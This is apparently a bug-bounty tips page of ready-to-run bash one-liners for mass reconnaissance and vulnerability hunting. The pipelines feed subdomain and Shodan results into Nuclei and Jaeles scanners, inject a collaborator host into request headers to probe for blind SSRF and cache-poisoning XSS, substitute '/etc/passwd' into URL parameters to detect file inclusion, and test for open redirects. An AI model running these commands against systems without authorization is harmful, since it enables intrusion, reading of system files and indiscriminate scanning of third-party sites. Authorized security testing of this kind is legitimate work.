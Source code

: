 ## Using shodan & Nuclei
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)

Shodan is a search engine that lets the user find specific types of computers connected to the internet, AWK Cuts the text and prints the third column. httpx is a fast and multi-purpose HTTP using -silent. Nuclei is a fast tool for configurable targeted scanning based on templates offering massive extensibility and ease of use, You need to download the nuclei templates.
```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /nuclei-templates/
```

## Using Chaos to jaeles "How did I find a critical today?.
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)

To chaos this project to projectdiscovery, Recon subdomains, using httpx, if we see the output from chaos domain.com we need it to be treated as http or https, so we use httpx to get the results. We use anew, a tool that removes duplicates from @TomNomNom, to get the output treated for import into jaeles, where he will scan using his templates.
```bash
chaos -d domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @ 
```
edited **if we don't have chaos api_key**
```bash
cat domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s ~/Tools/jaeles-signatures -u @
```

## Check Blind ssrf in Header,Path,Host & check xss via web cache poisoning.
> @sratarun
```bash
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotort'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotort'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotort'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotort HTTP/1.1 ""\n";done\
```

### Local File Inclusion
> @dwisiswant0
```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0
```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
